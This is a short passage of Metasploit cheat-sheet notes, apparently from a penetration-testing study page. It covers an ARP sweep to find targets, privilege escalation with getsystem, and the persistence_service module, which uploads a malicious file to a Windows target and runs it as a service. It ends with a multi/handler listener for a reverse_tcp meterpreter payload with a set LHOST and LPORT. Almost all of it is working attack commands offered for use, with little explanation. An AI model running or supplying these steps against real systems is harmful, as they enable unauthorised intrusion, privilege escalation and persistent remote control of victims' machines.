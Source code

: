 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
```

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.
